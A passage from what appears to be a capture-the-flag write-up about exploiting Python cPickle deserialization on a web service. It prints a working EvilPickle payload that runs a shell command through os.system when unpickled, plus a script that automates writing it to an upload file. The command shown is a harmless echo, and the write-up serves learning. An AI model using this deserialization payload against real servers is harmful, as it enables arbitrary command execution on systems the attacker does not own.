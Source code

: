 ```py
	print "Error 2"
	sys.exit()
data = open("backup.p", "rb").read()
if not "p1" in data:
	print "Error 3"
	sys.exit()

else:
	p_id = md5(char + quote).hexdigest()
	print p_id
```

That way I could check if my input was valid and, if so, get the location of the file created on the server. Then, I would go into the website, submit the data, and go to Burp to send the md5 hash.

I also found some code from a [website](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html) that showed how to exploit the loads function from cPickle:

```py
import pickle
import os
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('echo Powned', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.data", "wb") as file:
    file.write(pickle_data)
```

As the article said, when testing this locally, only Powned would be printed to the screen. I tried many combinations and functions, but nothing worked, I only got 500 Internal Errors. After many failed attempt, I concluded this process was time consuming and unsuccessful, for either I got the ``Still reviewing: + contens`` message or the 500 error.

## Exploit 2.0

I decided to automate everything with a python script so that I could try things easily and faster than before.

```py

import pickle, os, sys
from hashlib import md5

class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('echo Powned', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.p", "wb") as file:
    print "------------------------\n"
    print char + pickle_data
    print "------------------------\n"
    file.write(char + pickle_data)
    file.close()

WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]

```